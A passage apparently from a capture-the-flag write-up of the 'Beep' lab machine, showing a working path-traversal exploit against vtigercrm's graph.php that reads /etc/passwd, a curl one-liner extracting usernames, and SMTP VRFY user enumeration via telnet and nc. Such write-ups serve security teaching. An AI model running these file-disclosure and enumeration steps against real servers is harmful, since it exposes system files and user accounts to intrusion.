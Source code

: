 ```shell
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
spamfilter:x:500:500::/home/spamfilter:/bin/bash
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
fanis:x:501:501::/home/fanis:/bin/bash
Sorry! Attempt to access restricted file.
```

Let's filter the usernames and save it to a file:

```shell
❯ curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action" | grep bash | cut -d ':' -f 1 > users.txt
❯ cat users.txt
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: users.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ root
   2   │ mysql
   3   │ cyrus
   4   │ asterisk
   5   │ spamfilter
   6   │ fanis
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

## SMTP

We can use telnet to connect to SMTP:

```shell
❯ telnet 10.10.10.7 25
Trying 10.10.10.7...
Connected to 10.10.10.7.
Escape character is '^]'.
220 beep.localdomain ESMTP Postfix # < wait for this
```

Alternatively, we can use nc:

```shell
❯ nc -nv 10.10.10.7 25
(UNKNOWN) [10.10.10.7] 25 (smtp) open
220 beep.localdomain ESMTP Postfix # < wait for this
```

### SMTP User Enumeration

We can validate that users have an `email` in SMTP:

```shell
❯ telnet 10.10.10.7 25
Trying 10.10.10.7...
Connected to 10.10.10.7.
Escape character is '^]'.
220 beep.localdomain ESMTP Postfix
HELO
501 Syntax: HELO hostname
HELO wixnic
250 beep.localdomain
VRFY root@localhost
252 2.0.0 root@localhost
VRFY root
252 2.0.0 root
```